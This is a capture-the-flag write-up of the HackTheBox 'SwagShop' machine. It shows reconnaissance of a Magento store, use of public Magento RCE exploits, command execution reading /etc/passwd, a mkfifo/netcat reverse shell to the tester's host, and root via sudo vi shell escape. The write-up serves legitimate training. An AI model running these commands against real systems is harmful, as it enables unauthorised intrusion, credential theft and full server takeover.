



## Reconnaissance

### nmap 
```
nmap -sC -sV -oN swagshop_light 10.129.228.247
```



- According to the result, the request will be redirected to 
```
http://swagshop.htb
```
- So, I have to set up it in local DNS
```
echo "10.129.228.247 swagshop.htb" >> /etc/hosts
```

### WebSite 
- Access the website, it's a e-commerce site.

- This site was developed based on Magento.
- Using curl to access the site and confirm the word "Magento"

- Do some enumeration for the function, it's easy to notice the URL  path is a little weird.
- When I access the function like cart, it will move to product page with the following URL 
```
http://swagshop.htb/index.php/5-x-hack-the-box-square-sticker.html
```

- At the same time, I do some brute-force to this site with gobuster and ffuf.
### Gobuster 
- Using gobuster to enumerate the target 
```
gobuster -u http://swagshop.htb -w /usr/share/wordlists/dirb/common.txt
```


### Enumerate the result of gobuster

- With gobuster result, it's easy to find the path is different from the product page, these path are not under /index.php
- Enumerate /shell 
```
http://swagshop.htb/shell/
```

- Enumerate /app
```
http://swagshop.htb/app/
```
- Find credential from /app/etc/local.xml
```
http://swagshop.htb/app/etc/local.xml
```

- This credential looks like mysql creds
```
root / fMVWh7bDHpgZkyfqQXreTjU9
```
- I also found some useful information
```
key: b355a9e0cd018d3f7f03607141518419
frontName: admin 
```

- Then I tried the credential to login to e-commerce, but failed since I don't get email for user account.

### Fuff 
- Since all the result from gobuster are not under /index.php
- I think it must have something under /index.php, so I use ffuf to FUZZ the path.
- Using ffuf to FUZZ the path under /index.php
```
ffuf -w '/usr/share/wordlists/dirb/common.txt' i 'http://swagshop.htb/index.php/FUZZ'
```


### Enumerate the result of fuff

- The most attract me is /admin
```
http://swagshop.htb/index.php/admin/
```
- It needs credential to login, I tried the previous one from local.xml --> Failed


### Magento
- Search Exploit for Magento
```
searchsploit magento 
```


- It show much exploit code, but I put my eyes on the following 3 first. 

- Research each of them
#### 1. Magento eCommerce CE v2.3.5-p2 - Blind SQLi

- According to the information, this exploit works on Magento2.
- After researching, I think the corresponding CVE is [CVE-2021-21024](https://nvd.nist.gov/vuln/detail/CVE-2021-21024) (not sure.)
> Magento versions 2.4.1 (and earlier), 2.4.0-p1 (and earlier) and 2.3.6 (and earlier) are affected by a blind SQL injection vulnerability in the Search module. Successful exploitation could lead to unauthorized access to restricted resources by an unauthenticated attacker. Access to the admin console is required for successful exploitation.

- But read more detail in ExploitDB information, It's easy to know the SQL injection need to be executed the following 2 path
```
1. PUT /rest/default/V1/carts/mine/coupons/aydin
2. POST /cargo/index/calidateqty
```
> For 1st one, I think it might need user authentication first, but I haven't get valid credential for it.
> And I also can't find any similar URL path, so it might not appropriate for this lab.

> For 2nd one, I also can't find similar URL path, or any function related to the validate function, so I think this also not appropriate to this lab.

- Other SQL injection exploit code:
- I found this [exploit code](https://github.com/ambionics/magento-exploits/blob/master/magento-sqli.py) and tried to execute it but failed.


- With above testing and researching, I think SQL injection is not the vulnerability for this lab. 

#### 2. Magento eCommerce - Remote Code Execution
- Related CVE: [CVE-2015-1397](https://nvd.nist.gov/vuln/detail/CVE-2015-1397)
- It's also the vulnerability related to SQL injection 
> SQL injection vulnerability in the getCsvFile function in the Mage_Adminhtml_Block_Widget_Grid class in Magento Community Edition (CE) 1.9.1.0 and Enterprise Edition (EE) 1.14.1.0 allows remote administrators to execute arbitrary SQL commands via the popularity field_expr parameter when the popularity from or popularity to parameter is set.

- I think this is only one which provide a complete exploit code.
- I decide to try to execute it first. (Follow to Exploit Section)
#### 3. Magento - Local File Disclosure

- Related CVE: I didn't find any related CVE. 
> Magento eCommerce platform uses a vulnerable version of Zend framework which is prone to XML (eXternal Entity Injection) attacks. 
> The SimpleXMLElement class of Zend framework (SimpleXML PHP extension) is used in an insecure way to parse XML data.  
> External entities can be specified by adding a specific DOCTYPE element to XML-RPC requests. By exploiting this vulnerability an application may be coerced to open arbitrary files and/or TCP connections.

- It's vulnerability related to XXE, but I didn't find any XXE related function from both of user page or admin page.
- I think this also is not appropriate from the lab.

## Exploit 

- After research I tried the second exploit code - RCE to Magento eCommerce 
- Execute the exploit code, I got some error messages.

- Do some modify to exploit code, comment out the string which cause execution error.


- Execute it again, then it response "Works!! ...."
```
python magentoRCE.py
```

- Here is a credential created for admin page 
```
forme / forme 
```

- Using this account to login admin page --> Success

- Start to enumerate the admin page, get the following information
	- magento version --> 1.9
	 
	 
	- admin application setting page 
	 
	- other user information (it doesn't disclose password)
	 
	- some notification message
	 
	 
- Search Exploit code for magento and focus on version 1.9
```
searchsploit magento | grep -i '1.9'
```

- Focus on RCE one (Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution )
- Download it 
```
searchsploit -m /php/webapps/37811.py
```
- Check the Exploit code, here are something necessary 
1. username 
2. password 
3. install_date 

- About the install_date, according to the comment, it can find from /app/etc/local.xml 
- So I checked this file again, and find the install date 

- Execute it to show the user 
```
python magentoRCE2.py http://swagshop.htb whoami 
```
- It shows error like following 
```
machinize._form_controls.AmbiguityError: more than one control matching name 'login[username]'
```

- According to the error message, I checked the exploit code and comment out the following line
- I think the error is caused by the username was added twice, and it might cause some duplicate or conflict.
```
br.form.new_control('text', 'login[username]', {'value': username})
```

- Comment it out.
- Then execute it again, it success get the current user 
```
python magentoRCE2.py http://swagshop.htb whoami 
```

- I also tried the following command to get more information 
- Read passwd file 
```
python magentoRCE2.py http://swagshop.htb "cat /etc/passwd"
```

- Focus on the user with /bin/bash

- Check network status 
```
python magentoRCE2.py http://swagshop.htb "netstat -tunlp"
```

- Check sudo permission
```
python magentoRCE2.py http://swagshop.htb "sudo -l"
```

- Check the content of haris directory
```
python magentoRCE2.py http://swagshop.htb "ls -al /home/haris"
```

-  Get user flag
```
python magentoRCE2.py http://swagshop.htb "cat /home/haris/user.txt"
```


## Privilege Escalation 

- With above exploit code, I tried to create connection by reverse shell 
```
python magentoRCE2.py http://swagshop.htb "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.145 1337 >/tmp/f"
```

- Observe nc status, get reverse shell
- Check current user
```
id / whoami 
```

- Check sudo permission 
```
sudo -l
```
- Current user can execute /usr/bin/vi in /var/html/www as root without password

- Research for privilege escalation from vi command from GTFObins 

- Using vi to read file which is root permission 
```
sudo /usr/bin/vi /var/www/html/../../../root/root.txt
```

- Get root flag 

- Using vi to escalate to root permission 
1. Edit a random or non-exist file by vi with sudo 
```
sudo /usr/bin/vi /var/www/html/b
```

2. In vi edit screen, set following parameter
```
:set shell=/bin/bash
```


3. After parameter setting, trigger it.
```
:shell
```


4. The screen will leave vi edit, and back to normal terminal page with root permission
5. Get root permission, check user
```
id
```


- Check root flag again


## Reference 

### Write up 

- [(Video)SwagShop](https://www.youtube.com/watch?v=qECG2_8xw_s)
- [HTB: SwagShop](https://0xdf.gitlab.io/2019/09/28/htb-swagshop.html)
- [SWAGSHOP — HackTheBox WriteUp](https://medium.com/@v1per/swagshop-hackthebox-writeup-a23f18e6b88b)
- [Magento Exploitation! — From Customer to Server User Access](https://medium.com/swlh/magento-exploitation-from-customer-to-server-user-access-70929e7bb634)
###  Reverse Shell 

- [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [RevShell Generator](https://www.revshells.com/)
### Magento Exploit 

##### Work 
- [(ExploitDB)Remote Code Execution](https://www.exploit-db.com/exploits/39838)
- [CVE-2015-1397](https://nvd.nist.gov/vuln/detail/CVE-2015-1397)
- [(ExploitDB)Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/37811)
- [Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution](https://gist.github.com/Mah1ndra/b15db547dfff13696ddd4236dd238e45)


#### FAILED Part 
- [(FAILED)exploit code - SQLi](https://github.com/ambionics/magento-exploits/blob/master/magento-sqli.py)
- [(FAILED)(ExploitDB)SQLI](https://www.exploit-db.com/exploits/50896)
- [CVE-2021-21024](https://nvd.nist.gov/vuln/detail/CVE-2021-21024)
- [(FAILED)(ExploitDB)Local File Disclosure](https://www.exploit-db.com/exploits/19793)


### Privilege Escalation 

- [GTFObins - vi](https://gtfobins.github.io/gtfobins/vi/)
- [Linux Privilege Escalation via VI!](https://medium.com/@pettyhacks/linux-privilege-escalation-via-vi-36c00fcd4f5e)
> The contents of the file don’t actually matter here. What we are wanting is to have an active session of **vi** running which we can then use to leverage to a root shell, since **vi** will be running as root already.
> if we have vi open, running as root, and we tell the terminal to spawn a shell, I’m sure you can guess what shell is going to be spawned? >:)


- [Use vi/vim for privilege escalation](https://web-wilke.de/use-vi-vim-for-privilege-escalation/)

###### tags: `HackTheBox`